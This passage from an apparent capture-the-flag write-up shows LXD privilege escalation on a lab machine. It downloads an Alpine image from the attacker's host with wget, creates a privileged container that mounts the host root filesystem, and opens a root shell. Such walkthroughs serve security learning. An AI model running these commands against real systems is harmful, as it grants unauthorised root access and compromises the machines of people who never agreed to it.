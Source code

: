 On the target machine, we can cd to /tmp, and download the image from our attacker machine with:

```python
cd /tmp
wget http://10.10.17.90:9000/alpine-v3.15-x86_64-20220101_1611.tar.gz
```

After the image is downloaded, we can add it as an image to LXD:

```python
lxc image import ./alpine-v3.15-x86_64-20220101_1611.tar.gz --alias myimage
```

We can check that the addition was successful with:

```python
lxc image list
```

![Untitled](BrainFuck%20b73ddd20a6e54042819338e539ee0869/Untitled%2049.png)

From there, the last steps will be to run the following commands:

```python
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

![Untitled](BrainFuck%20b73ddd20a6e54042819338e539ee0869/Untitled%2050.png)

With this, we have root:

![Untitled](BrainFuck%20b73ddd20a6e54042819338e539ee0869/Untitled%2051.png)

With the find command, we where the root flag is:

![Untitled](BrainFuck%20b73ddd20a6e54042819338e539ee0869/Untitled%2052.png)
